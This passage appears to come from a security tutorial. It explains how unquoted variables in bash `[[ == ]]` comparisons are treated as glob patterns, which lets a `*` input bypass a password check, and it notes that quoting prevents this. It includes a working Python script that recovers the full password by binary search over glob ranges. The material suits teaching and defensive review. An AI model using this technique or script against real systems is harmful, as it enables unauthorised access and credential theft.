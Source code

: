 This is because the `[[` is a shell built-in that interprets its arguments slightly differently than a regular binary. Otherwise, it would be a glob pattern and replaced with all filenames that match the inputted pattern. In this case the _right_ argument of an `==` operation in `[[` is treated as a [pattern](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3\_chap02.html#tag\_18\_13) instead of a literal string (note: single `=` is equivalent). \
If `$guess` were in quotes like `"$guess"` it would be taken literally, not as a pattern. Using `[` instead of `[[` also prevents this but developers like using the built-in more because it handles special characters better. And lastly, this also doesn't work if your malicious input is on the left side of the comparison.&#x20;

Something even better than bypassing the password check is **recovering** **the password** it was checking against, which is also very possible using this wildcard trick. Because we can try a string like `s*` to see if that matches the password, and get a boolean response. Doing this for every first character we eventually find one that passes and thus find the first character. Continuing this we can find all other characters to recover the full password. \
This idea can even be improved to [Binary Search](https://en.wikipedia.org/wiki/Binary\_search\_algorithm) performance by requesting _ranges_ of characters instead of individual ones, here is an implementation:

```python
import subprocess

def test(password):
    # Set your program and input method here
    process = subprocess.run(['./password.sh'], input=password.encode(),
                             stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    return b"Correct" in process.stdout

def escape(s): return ''.join([f'\\{c}' for c in s])

# Binary Search algorithm
def search_once(test_function, prefix=""):
    min = ord(' ')
    max = ord('~')

    while min <= max:
        mid = (min + max) // 2

        if test_function(f'{escape(prefix)}[{escape(chr(mid))}-~]*'):
            min = mid + 1
        else:
            max = mid - 1

    return chr(max)

# Keep searching until whole string found
def search(test_function):
    found = ""
    while True:
        found += search_once(test_function, prefix=found)
        print(found)

        if test_function(escape(found)):
            return found

print(search(test))  # secret
```
